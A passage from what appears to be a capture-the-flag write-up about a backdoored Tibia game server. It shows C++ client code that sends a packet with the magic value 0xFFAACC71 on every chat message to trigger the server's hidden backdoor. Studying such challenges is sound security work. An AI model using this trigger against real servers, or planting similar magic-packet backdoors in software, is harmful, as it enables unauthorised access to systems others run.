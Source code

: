I cleaned up the code of some mangled symbols, but we can clearly see that the server checks if the packet contains `0xFFAACC71`, and only then it executes `Game::playerSayExtended(Player->getID())`. That's a nice start, let's try and send this packet to the backdoored server. I did it in the simplest way possible, by modifying the client code so that every time I send a message, it also triggers the backdoor.
Let's take a look at some code similar in function so that we can modify it...

```cpp
// client/protocolgamesend.cpp
void ProtocolGame::sendTalk(Otc::MessageMode mode, int channelId, const std::string& receiver, const std::string& message)
{
    this->TriggerBackdoor();

    if(message.empty())
        return;

    if(message.length() > 255) {
        g_logger.traceError("message too large");
        return;
    }

    OutputMessagePtr msg(new OutputMessage);
    msg->addU8(Proto::ClientTalk);
    msg->addU8(Proto::translateMessageModeToServer(mode));

    switch(mode) {
    case Otc::MessagePrivateTo:
    case Otc::MessageGamemasterPrivateTo:
    case Otc::MessageRVRAnswer:
        msg->addString(receiver);
        break;
    case Otc::MessageChannel:
    case Otc::MessageChannelHighlight:
    case Otc::MessageChannelManagement:
    case Otc::MessageGamemasterChannel:
        msg->addU16(channelId);
        break;
    default:
        break;
    }

    msg->addString(message);
    send(msg);
}
```

Turns out the Tibia protocol is really simple, we manually construct the packet from bytes - that's perfect for our needs. Let's now write our `TriggerBackdoor` function:
```cpp
// client/protocolgamesend.cpp
void ProtocolGame::TriggerBackdoor()
{
    OutputMessagePtr msg(new OutputMessage);
    msg->addU8(Proto::ClientBackdoor); // this is just a constant = 143
    msg->addU32(0xFFAACC71);
    send(msg);    
}
```
